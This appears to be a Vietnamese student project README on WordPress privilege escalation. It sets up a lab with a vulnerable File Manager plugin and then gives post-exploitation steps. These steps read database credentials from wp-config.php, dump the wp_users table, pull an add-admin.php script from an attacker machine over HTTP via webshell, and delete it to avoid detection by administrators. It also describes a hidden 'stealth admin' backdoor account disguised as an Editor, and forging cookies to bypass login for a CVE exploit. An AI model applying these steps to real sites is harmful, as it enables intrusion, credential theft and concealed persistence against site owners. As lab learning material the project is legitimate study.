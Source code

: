 # WordPress-Privilege-Escalation

**Author:** Dang Duy Hau <br>
**Affiliation:** Hanoi University of Science and Technology <br>

Thank you, Dr. Vu Thanh Nam, for helping me develop this project.

## Set up environment

1. Cài WordPress thủ công trên Ubuntu

- Máy ảo VirtualBox (dùng Ubuntu 20.04LTS)
- Cài Apache, MySQL, PHP
- Cấu hình MySQL
- Tạo database

2. Tải WordPress và giải nén

3. Cấu hình Apache Virtual Host (nếu cần)

- Kích hoạt:
  sudo a2ensite wordpress.conf
  sudo a2enmod rewrite
  sudo systemctl restart apache2

4. Cài đặt WordPress trong trình duyệt
   Truy cập http://localhost để hoàn tất setup → nhập thông tin DB: DB name, username, password

5. Tải Plugin File Manager bản cũ (<= 6.8)
   Giải nén và cài:
   unzip wp-file-manager.6.8.zip
   sudo mv wp-file-manager /var/www/html/wp-content/plugins/
   sudo chown -R www-data:www-data /var/www/html/wp-content/plugins/wp-file-manager

6. Xử lý lỗi
   Khi truy cập http://localhost thì xảy ra lỗi:
   Hiện bạn đang thấy trang mặc định của Apache2, không phải trang cài đặt WordPress. Điều này có nghĩa là Apache đang phục vụ file mặc định /var/www/html/index.html thay vì WordPress. Đây là lỗi phổ biến, và bạn chỉ cần xử lý một bước sau để chuyển hướng đúng đến WordPress.
   Nguyên nhân: Trang Apache mặc định vẫn tồn tại trong /var/www/html/ chứa file: /var/www/html/index.html
   Trong khi WordPress nằm ở: /var/www/html/wordpress/ hoặc /var/www/html/ (nếu bạn đã move toàn bộ)
   Cách xử lý lỗi để hiển thị trang cài đặt WordPress:
   Bước 1: Xóa file mặc định index.html: sudo rm /var/www/html/index.html, File này đang "chắn đường" WordPress, nên Apache hiển thị nó thay vì WordPress index.php.
   Bước 2: Kiểm tra thư mục chứa WordPress:
   Nếu bạn chạy: ls /var/www/html/
   Bạn nên thấy:
   index.php wp-config-sample.php wp-content/ wp-includes/ wp-admin/ ...
   Nếu thấy wordpress/ thì bạn cần move lại:
   sudo mv /var/www/html/wordpress/_ /var/www/html/
   sudo mv /var/www/html/wordpress/._ /var/www/html/ 2>/dev/null
   sudo rmdir /var/www/html/wordpress/
   Bước 3: Cấp quyền lại cho Apache
   sudo chown -R www-data:www-data /var/www/html/
   sudo find /var/www/html/ -type d -exec chmod 755 {} \;
   sudo find /var/www/html/ -type f -exec chmod 644 {} \;
   Bước 4: Khởi động lại Apache
   sudo systemctl restart apache2
   Bước 5: Truy cập lại trình duyệt
   Mở lại trình duyệt:
   👉 http://localhost

Bạn sẽ thấy giao diện cài đặt WordPress:
Chọn ngôn ngữ → Nhập thông tin database → Tạo admin user
=>>> Okela
Một số lệnh tạo môi trường để thực hiện pentest:
python3 -m venv myenv
source myenv/bin/activate
pip3 install -r requirements.txt

Cách truy vấn cơ sở dữ liệu khi đã RCE:

- Khi đã có quyền www-data: dò tìm các thông tin liên quan đến CSDL: username, password, tên CSDL, được thông tin:
  (hau)cat /var/www/html/wp-config.php | grep DB\_

- Sau đó truy cập với quyền này vào CSDL, liệt kê các bảng trong CSDL:
  (hau)mysql -u wpuser -p'qwerty' -e "SHOW TABLES;" wordpress

- Rồi tiếp tục trích xuất thông tin nhạy cảm từ các bảng của CSDL, do với mục đích leo thang lấy quyền admin nên chúng ta sẽ khai thác trên bảng dữ liệu này, lấy thông tin của bảng user:
  (hau)mysql -u wpuser -p'qwerty' -e 'DESCRIBE wp_users;' wordpress

- Xem các thông tin bảng Users:
  (hau)mysql -u wpuser -p'qwerty' -e 'SELECT \* FROM wp_users;' wordpress

---

Trong quá trình khai thác hệ thống thông qua lỗ hổng RCE (Remote Code Execution), không thể sử dụng giao diện tương tác của MySQL bằng cách gọi trực tiếp lệnh mysql -u wpuser -p'qwerty' wordpress và sau đó nhập từng câu lệnh SQL như SHOW TABLES; do hạn chế của môi trường thực thi. Cụ thể, khi truy cập qua webshell hoặc kênh RCE, môi trường shell không cung cấp đầy đủ các tính năng của một terminal tương tác, chẳng hạn như không hỗ trợ TTY, không có đầu vào chuẩn (stdin) và đầu ra chuẩn (stdout) truyền thống. Do đó, các lệnh SQL nhập vào sau khi khởi động MySQL shell sẽ không được thực thi hoặc không hiển thị kết quả.
Thay vào đó, sử dụng cú pháp dòng lệnh dạng non-interactive với tùy chọn -e, cho phép thực hiện truy vấn SQL trực tiếp trong một lần gọi lệnh, ví dụ: mysql -u wpuser -p'qwerty' -e 'SHOW TABLES;' wordpress. Phương pháp này giúp MySQL thực thi lệnh ngay lập tức và trả về kết quả ra đầu ra chuẩn, phù hợp với điều kiện hạn chế của môi trường RCE. Việc sử dụng lệnh -e trong mọi truy vấn SQL là cần thiết để đảm bảo quá trình truy xuất dữ liệu từ cơ sở dữ liệu được thực hiện trơn tru và có thể quan sát được kết quả.

Kiểm tra quyền admin của các user hiện tại:
(hau)mysql -u wpuser -p'qwerty' -e "SELECT \* FROM wp_usermeta WHERE meta_key='wp_capabilities';" wordpress

---

- thêm người dùng:
  Dưới đây là một file PHP đơn giản dùng để tạo tài khoản admin mới trong WordPress, bằng cách sử dụng đúng hàm wp_create_user() và wp_insert_user() của WordPress – đảm bảo đúng chuẩn hệ thống và tránh lỗi hash password.

1. Tạo file PHP tên add-admin.php với nội dung như trong file đã cung cấp (add-admin.php)
2. Upload file này lên thư mục gốc WordPress: Qua webshell / RCE → đưa add-admin.php vào cùng nơi với wp-load.php: /var/www/html/
3. Truy cập file này trên trình duyệt: http://target-site.com/add-admin.php
   Nếu thành công, bạn sẽ thấy: Administrator account created successfully!
4. Đăng nhập WordPress:
   Địa chỉ đăng nhập: http://target-site.com/wp-login.php

Gỡ file ngay sau khi xong: Vì file này cho phép tạo admin, bạn cần xóa nó để tránh bị người khác khai thác, hoặc bị phát hiện bởi quản trị viên server, có thể để xóa tự động:
rm /var/www/html/wordpress/add-admin.php

Dùng webshell để tải file từ máy tấn công:
Bước 1: Tạm thời mở HTTP server trên máy tấn công
Trên máy tấn công, chạy: python3 -m http.server 8000
→ Lúc này file add-admin.php sẽ có URL là: http://<YOUR-IP>:8000/add-admin.php
Bước 2: Dùng webshell hoặc RCE để tải về
Trên máy nạn nhân (qua shell), chạy: http://<YOUR-IP>:8000/add-admin.php -O /var/www/html/addwget-admin.php
Bước 3: Truy cập script trên trình duyệt: http://<VICTIM-DOMAIN>/add-admin.php
Bước 4: Xóa script sau khi dùng xong: rm /var/www/html/add-admin.php

---

Dưới đây là một script SQL bạn có thể chạy (qua RCE hoặc MySQL shell) để tạo một tài khoản trông như là "Editor" nhưng thực ra có đầy đủ quyền "Administrator" – một kỹ thuật "stealth admin" thường được dùng để ẩn backdoor khỏi mắt người kiểm tra.
Ngữ cảnh:
Bạn đã RCE được và có quyền truy cập database.
Bạn muốn tạo một tài khoản editor giả mạo để lẩn tránh, nhưng vẫn có quyền admin đầy đủ.
Khi đăng nhập:
Giao diện hiển thị như Editor
Nhưng thực ra có thể làm mọi thứ như Admin (nếu plugin/theme không che giấu)
Mẹo ẩn mình:
Có thể đổi display_name thành Support, Bot, Editor Helper...
Không dùng tên kiểu admin, root, superuser dễ gây nghi ngờ.

Dưới đây là file PHP stealth admin script - nó sẽ (file này xin phép không cung cấp):

Tạo tài khoản WordPress mới có tên hiển thị như một editor bình thường

Nhưng thực chất có đặc quyền administrator

Và gửi thông báo về máy tấn công (tuỳ chọn, dễ mở rộng)

Tự động xóa chính nó sau khi chạy xong

---

Trong mã khai thác mà đang sử dụng, đường dẫn /wp-admin/options-general.php?page=licence được sử dụng để tải tệp lên thông qua một form trong trang quản trị của WordPress. Tuy nhiên, WordPress yêu cầu đăng nhập trước khi cho phép truy cập vào trang quản trị này, và do đó lỗi yêu cầu trang đăng nhập xảy ra. Điều này có thể xử lý bằng đăng nhập với các cookie sinh ra bằng các hàm ngẫu nhiên nhằm vượt qua xác thực.
Mặc dù mô tả trong CVE-2024-51788 có nói rằng lỗ hổng cho phép không cần xác thực để tải lên tệp, lỗi xác thực không đúng có thể xảy ra trong plugin hoặc cấu hình của hệ thống, khiến khi gửi yêu cầu tới /wp-admin/options-general.php?page=licence WordPress vẫn yêu cầu đăng nhập.
Lý do tại sao mã khai thác vẫn yêu cầu đăng nhập:
Lỗi xác thực không đúng có thể có trong plugin hoặc trong WordPress. Cụ thể:
Plugin không kiểm tra đúng quyền truy cập khi tải lên tệp. Có thể plugin đã cấu hình endpoint /wp-admin/options-general.php?page=licence mà không thực sự bỏ qua xác thực (hoặc bỏ qua kiểm tra quyền truy cập).
WordPress mặc định yêu cầu đăng nhập vào admin trước khi có thể truy cập vào các trang quản trị (bao gồm trang cấu hình của plugin).
Cách khắc phục: Sửa mã khai thác
Để bỏ qua yêu cầu đăng nhập, bạn sẽ cần phải đăng nhập tự động hoặc tắt yêu cầu đăng nhập nếu có vấn đề với plugin hoặc WordPress.
Xử lý đăng nhập tự động:
Như đã đề cập trong các bước trước, có thể sử dụng cookies hợp lệ hoặc đăng nhập tự động vào WordPress để bỏ qua trang login.
Giải pháp tạm thời:
Mục đích là để bypass (vượt qua) trang đăng nhập mà không cần thực sự đăng nhập thủ công. Điều này có thể được thực hiện bằng cách:
Sử dụng cookies hợp lệ: Mã khai thác sẽ gửi một cookie ngẫu nhiên hoặc giả mạo một người dùng đã đăng nhập.
Sử dụng session: Gửi yêu cầu đăng nhập hợp lệ để lấy cookies, và sau đó tiếp tục gửi yêu cầu tải lên mà không bị yêu cầu đăng nhập lại.
Tuy nhiên, như đã giải thích trước, việc này không hoàn toàn phù hợp với mô tả của CVE, vì CVE này mô tả lỗ hổng không yêu cầu xác thực và bypass được xác thực để tải tệp lên. Nếu muốn khắc phục vấn đề này theo đúng mô tả CVE, chúng ta sẽ cần kiểm tra lại cấu hình plugin hoặc cấu hình của WordPress.
